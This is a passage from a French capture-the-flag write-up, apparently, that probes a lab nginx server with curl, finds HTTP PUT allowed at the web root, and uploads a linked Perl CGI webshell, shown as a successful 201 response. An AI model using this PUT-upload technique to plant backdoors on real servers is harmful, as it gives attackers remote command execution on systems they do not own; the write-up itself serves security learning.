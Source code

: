 ```plain
$ curl -D- -XOPTIONS http://administrativepanel.rubbish.dev:20000/cgi-bin/
HTTP/1.1 403 Forbidden
Server: nginx/1.14.0 (Ubuntu)
Date: Sat, 05 Jan 2019 01:22:35 GMT
Content-Type: text/plain
Transfer-Encoding: chunked
Connection: keep-alive

403 Forbidden
```

*Not Allowed* et *Forbidden* semblent correspondre littéralement à la même chose mais si on regarde [sur Wikipedia](https://en.wikipedia.org/wiki/List_of_HTTP_status_codes#4xx_Client_errors) le 405 est plutôt à interprété comme *non supporté*.  

Entrons dans le vif du sujet et voyons si on peut effectuer un PUT :  

```plain
$ curl -D- -XPUT http://administrativepanel.rubbish.dev:20000/cgi-bin/
HTTP/1.1 403 Forbidden
Server: nginx/1.14.0 (Ubuntu)
Date: Sat, 05 Jan 2019 01:22:49 GMT
Content-Type: text/plain
Transfer-Encoding: chunked
Connection: keep-alive

403 Forbidden
```

```plain
$ curl -D- -XPUT http://administrativepanel.rubbish.dev:20000/
HTTP/1.1 409 Conflict
Server: nginx/1.14.0 (Ubuntu)
Date: Sat, 05 Jan 2019 01:22:54 GMT
Content-Type: text/html
Content-Length: 176
Connection: keep-alive

<html>
<head><title>409 Conflict</title></head>
<body bgcolor="white">
<center><h1>409 Conflict</h1></center>
<hr><center>nginx/1.14.0 (Ubuntu)</center>
</body>
</html>
```

On peut récupérer [une backdoor CGI en Perl](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/pl-cgi/perlcmd.cgi) et tenter de la placer sous la racine web :  

```plain
$ curl -D- http://administrativepanel.rubbish.dev:20000/ --upload-file devloop.pl
HTTP/1.1 100 Continue

HTTP/1.1 201 Created
Server: nginx/1.14.0 (Ubuntu)
Date: Fri, 04 Jan 2019 22:52:43 GMT
Content-Length: 0
Location: http://administrativepanel.rubbish.dev:20000/devloop.pl
Connection: keep-alive
```
